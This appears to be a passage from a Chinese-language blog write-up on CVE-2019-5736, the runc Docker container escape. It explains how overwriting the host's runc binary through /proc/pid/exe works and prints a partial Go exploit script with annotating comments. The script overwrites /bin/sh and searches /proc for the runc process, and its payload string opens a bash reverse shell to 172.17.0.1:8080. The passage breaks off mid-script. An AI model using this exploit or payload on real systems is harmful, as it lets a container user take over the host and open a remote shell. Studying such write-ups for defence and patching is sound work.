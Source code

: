 漏洞的存在原理在于/proc/pid/exe这个绑定的方式，/proc是比较熟知的一个概念，为一个虚拟文件系统，其中的文件能够显示当前的进程运行信息。/proc/pid/exe是一个程序链接，指向这个pid运行的程序。

而这个漏洞的利用方式就在于，在docker里查找到runc的exe，获取对应于该位置的一个文件句柄，然后向这个位置写入东西的话，就能够将宿主机的程序覆盖掉，然后用户下一次再要运行runc的时候，就会触发反弹shell。

当然一开始的时候这个文件本来是不可写的，但这个限制只这只存在于runC运行时，因而通过/proc/pid/exe持续保持一个指向该文件的指针，循环进行写入的申请。

可以看到，宿主机的docker-runc文件已经被覆盖掉了

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20200319195844.png)



因此，只要存在一个有docker内root权限，然后再通过这种方式，就可以实现docker逃逸，之后再打开任意docker，都会触发这个漏洞。（改不回去了）

### 攻击方式

如下为前文给出的攻击脚本，接下来对其进行分析

```
package main

// Implementation of CVE-2019-5736
// Created with help from @singe, @_cablethief, and @feexd.
// This commit also helped a ton to understand the vuln
// https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d
import (
	"fmt"
	"io/ioutil"
	"os"
	"strconv"
	"strings"
)

// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n bash -i >& /dev/tcp/172.17.0.1/8080 0>& 1 &\n"

func main() {
	//首先来看看能不能打开/bin/sh，即有root权限就成
	fd, err := os.Create("/bin/sh")
	if err != nil {
		fmt.Println(err)
		return
	}
    
    //然后将其覆盖为#!/proc/self/exe
	fmt.Fprintln(fd, "#!/proc/self/exe")
	err = fd.Close()
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Println("[+] Overwritten /bin/sh successfully")
	
	// 循环遍历/proc里的文件，直到找到runc是哪个进程
	var found int
	for found == 0 {
		pids, err := ioutil.ReadDir("/proc")
		if err != nil {
			fmt.Println(err)
			return
		}
		for _, f := range pids {
			fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
			fstring := string(fbytes)
			if strings.Contains(fstring, "runc") {
```